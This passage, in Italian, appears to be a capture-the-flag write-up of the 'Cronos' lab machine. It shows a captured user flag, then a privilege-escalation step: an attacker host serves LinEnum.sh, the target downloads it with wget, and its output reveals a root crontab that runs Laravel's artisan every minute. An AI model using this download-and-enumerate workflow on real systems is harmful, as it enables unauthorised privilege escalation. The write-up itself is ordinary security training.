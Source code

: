 Flag users
www-data@cronos:/home/noulis$ cat user.txt 
c56059c3fc533f65df0e509cb3b52468
---------------------------------------------------------------------
# PRIVESC

Siamo dentro una macchina linux quindi ci scarichiamo LinEnum.sh dalla nostra macchina 
avvierò un server web Python3 nella mia directory dove è contenuto LinEnum.sh

```bash
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/LinEnum]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
e lo scarico sulla macchina target wget 

```bash
www-data@cronos:/tmp$ wget 10.10.14.53/LinEnum.sh                                                                                            
--2023-05-19 10:51:13--  http://10.10.14.53/LinEnum.sh                                                                                       
Connecting to 10.10.14.53:80... connected.                                                                                                   
HTTP request sent, awaiting response... 200 OK                                                                                               
Length: 46631 (46K) [text/x-sh]                                                                                                              
Saving to: 'LinEnum.sh'                                                                                                                      
                                                                                                                                             
LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0.1s    

2023-05-19 10:51:13 (398 KB/s) - 'LinEnum.sh' saved [46631/46631]
```

Eseguiamo LinEnum.sh e alla voce corntab torivamo il seguente output

```bash
[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```
